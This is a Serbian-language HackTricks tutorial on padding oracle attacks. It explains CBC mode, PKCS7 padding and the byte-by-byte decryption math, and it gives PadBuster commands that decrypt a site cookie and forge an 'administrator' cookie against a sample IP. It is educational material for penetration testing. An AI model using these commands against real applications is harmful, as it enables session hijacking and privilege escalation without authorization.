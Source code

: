# Padding Oracle

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## CBC - Cipher Block Chaining

U CBC režimu, **prethodni šifrovani blok se koristi kao IV** za XOR sa sledećim blokom:

![https://defuse.ca/images/cbc\_encryption.png](https://defuse.ca/images/cbc\_encryption.png)

Za dešifrovanje CBC-a se vrše **suprotne operacije**:

![https://defuse.ca/images/cbc\_decryption.png](https://defuse.ca/images/cbc\_decryption.png)

Primetite kako je potrebno koristiti **ključ za šifrovanje** i **IV**.

## Poravnavanje poruke

Pošto se šifrovanje vrši u **fiksnim veličinama blokova**, obično je potrebno poravnavanje u **poslednjem bloku** da bi se kompletirala njegova dužina.\
Obično se koristi **PKCS7**, koji generiše poravnavanje **ponavljanjem** **broja** **bajtova** **potrebnih** da se kompletira blok. Na primer, ako poslednjem bloku nedostaju 3 bajta, poravnavanje će biti `\x03\x03\x03`.

Pogledajmo još primera sa **2 bloka dužine 8 bajta**:

| bajt #0 | bajt #1 | bajt #2 | bajt #3 | bajt #4 | bajt #5 | bajt #6 | bajt #7 | bajt #0  | bajt #1  | bajt #2  | bajt #3  | bajt #4  | bajt #5  | bajt #6  | bajt #7  |
| ------- | ------- | ------- | ------- | ------- | ------- | ------- | ------- | -------- | -------- | -------- | -------- | -------- | -------- | -------- | -------- |
| P       | A       | S       | S       | W       | O       | R       | D       | 1        | 2        | 3        | 4        | 5        | 6        | **0x02** | **0x02** |
| P       | A       | S       | S       | W       | O       | R       | D       | 1        | 2        | 3        | 4        | 5        | **0x03** | **0x03** | **0x03** |
| P       | A       | S       | S       | W       | O       | R       | D       | 1        | 2        | 3        | **0x05** | **0x05** | **0x05** | **0x05** | **0x05** |
| P       | A       | S       | S       | W       | O       | R       | D       | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** |

Primetite kako je u poslednjem primeru **poslednji blok bio pun pa je generisan još jedan samo sa poravnavanjem**.

## Padding Oracle

Kada aplikacija dešifruje šifrovane podatke, prvo će dešifrovati podatke, a zatim će ukloniti poravnavanje. Tokom čišćenja poravnavanja, ako **neispravno poravnavanje izazove detektovano ponašanje**, imate **ranjivost padding orakla**. Detektovano ponašanje može biti **greška**, **nedostatak rezultata** ili **sporiji odgovor**.

Ako detektujete ovo ponašanje, možete **dešifrovati šifrovane podatke** i čak **šifrovati bilo koji čisti tekst**.

### Kako iskoristiti

Možete koristiti [https://github.com/AonCyberLabs/PadBuster](https://github.com/AonCyberLabs/PadBuster) da iskoristite ovu vrstu ranjivosti ili jednostavno uraditi

```
sudo apt-get install padbuster
```

Da biste testirali da li je kolačić sajta ranjiv, možete pokušati:

```bash
perl ./padBuster.pl http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA=="
```

**Kodiranje 0** znači da se koristi **base64** (ali dostupni su i drugi, proverite meni za pomoć).

Takođe možete **zloupotrebiti ovu ranjivost da biste šifrovali nove podatke. Na primer, zamislite da je sadržaj kolačića "**_**user=MyUsername**_**", tada ga možete promeniti u "\_user=administrator\_" i povećati privilegije unutar aplikacije. Takođe to možete uraditi koristeći `padbuster` i navodeći parametar -plaintext**.

```bash
perl ./padBuster.pl http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA==" -plaintext "user=administrator"
```

Ako je sajt ranjiv, `padbuster` će automatski pokušati da pronađe kada se javlja greška u paddingu, ali možete takođe navesti poruku o grešci koristeći parametar **-error**.

```bash
perl ./padBuster.pl http://10.10.10.10/index.php "" 8 -encoding 0 -cookies "hcon=RVJDQrwUdTRWJUVUeBKkEA==" -error "Invalid padding"
```

### Teorija

U **kratkim crtama**, možete početi dešifrovati šifrovane podatke tako što ćete pogađati tačne vrednosti koje mogu biti korišćene za stvaranje svih **različitih punjenja**. Zatim, napad na orakl za punjenje će početi dešifrovati bajtove od kraja prema početku pogađajući koja će biti tačna vrednost koja **stvara punjenje od 1, 2, 3, itd**.

![](<../.gitbook/assets/image (629) (1) (1).png>)

Zamislite da imate neki šifrovani tekst koji zauzima **2 bloka** formirana bajtovima od **E0 do E15**.\
Da biste **dešifrovali** **poslednji** **blok** (**E8** do **E15**), ceo blok prolazi kroz "dešifrovanje blok šifre" generišući **posredne bajtove I0 do I15**.\
Na kraju, svaki posredni bajt se **XORuje** sa prethodnim šifrovanim bajtovima (E0 do E7). Dakle:

* `C15 = D(E15) ^ E7 = I15 ^ E7`
* `C14 = I14 ^ E6`
* `C13 = I13 ^ E5`
* `C12 = I12 ^ E4`
* ...

Sada je moguće **izmeniti `E7` sve dok je `C15`** **`0x01`**, što će takođe biti ispravno punjenje. Dakle, u ovom slučaju: `\x01 = I15 ^ E'7`

Dakle, pronalaženjem E'7, moguće je izračunati I15: `I15 = 0x01 ^ E'7`

Što nam omogućava da **izračunamo C15**: `C15 = E7 ^ I15 = E7 ^ \x01 ^ E'7`

Znajući **C15**, sada je moguće **izračunati C14**, ali ovaj put brute-force metodom koristeći punjenje `\x02\x02`.

Ovaj BF je jednako složen kao i prethodni, jer je moguće izračunati E''15 čija je vrednost 0x02: `E''7 = \x02 ^ I15` tako da je potrebno samo pronaći **`E'14`** koji generiše **`C14` jednak `0x02`**.\
Zatim, uradite iste korake da biste dešifrovali C14: **`C14 = E6 ^ I14 = E6 ^ \x02 ^ E''6`**

**Pratite ovaj lanac dok ne dešifrujete ceo šifrovani tekst.**

### Otkrivanje ranjivosti

Registrujte nalog i prijavite se sa tim nalogom.\
Ako se **mnoštvo puta prijavite** i uvek dobijete **isti kolačić**, verovatno postoji **nešto** **pogrešno** u aplikaciji. Kolačić koji se vraća trebao bi biti jedinstven svaki put kada se prijavite. Ako je kolačić **uvek** isti, verovatno će uvek biti validan i neće biti načina da se on poništi.

Sada, ako pokušate **izmeniti** kolačić, možete videti da dobijate **grešku** od aplikacije.\
Ali ako BF punjenje (koristeći na primer padbuster) uspete da dobijete drugi kolačić koji je validan za drugog korisnika. Ovaj scenario je vrlo verovatno ranjiv na padbuster.

### Reference

* [https://en.wikipedia.org/wiki/Block\_cipher\_mode\_of\_operation](https://en.wikipedia.org/wiki/Block\_cipher\_mode\_of\_operation)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite svoju **kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
